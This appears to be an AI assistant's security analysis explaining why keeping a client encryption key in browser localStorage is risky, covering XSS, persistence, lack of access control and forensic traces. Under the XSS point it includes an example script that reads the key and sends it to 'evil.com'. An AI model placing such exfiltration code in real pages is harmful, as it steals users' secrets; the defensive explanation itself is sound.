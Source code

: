 # Why localStorage for Client Keys? Security Analysis

## The Original Problem

You asked an excellent security question about this code:

```typescript
// ❌ PROBLEMATIC CODE
let clientKey = localStorage.getItem('f4rmhouse-client-key');
if (!clientKey) {
  clientKey = TokenEncryption.generateSecurePassword();
  localStorage.setItem('f4rmhouse-client-key', clientKey); // Security risk!
}
```

## Why This Approach Was Initially Used

### 🤔 **The Reasoning (Flawed)**
1. **Persistence**: Key survives browser restarts
2. **Convenience**: No need to re-derive keys
3. **Fallback**: Works when no user session exists
4. **Simplicity**: Easy to implement

### 🚨 **The Security Problems**

#### 1. **XSS Vulnerability**
```javascript
// Any malicious script can steal the key:
const stolenKey = localStorage.getItem('f4rmhouse-client-key');
// Send to attacker's server
fetch('https://evil.com/steal', { 
  method: 'POST', 
  body: JSON.stringify({ key: stolenKey }) 
});
```

#### 2. **Persistent Storage Risk**
- Key remains even after user logs out
- Survives browser crashes and restarts
- Can be accessed by other scripts on the same domain

#### 3. **No Access Control**
- Any JavaScript code can read/modify the key
- No way to restrict access to specific functions
- Vulnerable to supply chain attacks (malicious dependencies)

#### 4. **Forensic Evidence**
- Key remains in browser storage indefinitely
- Can be recovered from disk forensics
- Leaves permanent traces
